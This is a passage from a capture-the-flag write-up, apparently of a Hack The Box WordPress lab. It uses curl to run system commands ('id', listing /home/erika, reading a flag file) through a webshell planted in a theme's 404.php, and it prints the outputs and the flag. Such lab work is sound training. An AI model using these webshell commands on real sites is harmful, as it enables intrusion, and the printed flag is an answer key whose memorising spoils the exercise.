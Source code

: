 ![](gitbook/cybersecurity/images/Pasted%20image%2020250220144836.png)

Nice, now we need to use curl to check if the webshell works:

```
curl -X GET "http://blog.inlanefreight.local/wp-content/themes/twentyseventeen/404.php?cmd=id"
```

We get this:

```
curl -X GET "http://blog.inlanefreight.local/wp-content/themes/twentyseventeen/404.php?cmd=id"

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

It works, let's read `/home/erika` directory:

```
curl -X GET "http://blog.inlanefreight.local/wp-content/themes/twentyseventeen/404.php?cmd=ls+/home/erika"

d0ecaeee3a61e7dd23e0e5e4a67d603c_flag.txt
```

Found our flag, let's read it:

```
curl -X GET "http://blog.inlanefreight.local/wp-content/themes/twentyseventeen/404.php?cmd=cat+/home/erika/d0ecaeee3a61e7dd23e0e5e4a67d603c_flag.txt"

HTB{w0rdPr355_4SS3ssm3n7}
```

Our final flag is:

```
HTB{w0rdPr355_4SS3ssm3n7}
```

![](gitbook/cybersecurity/images/Pasted%20image%2020250220145253.png)
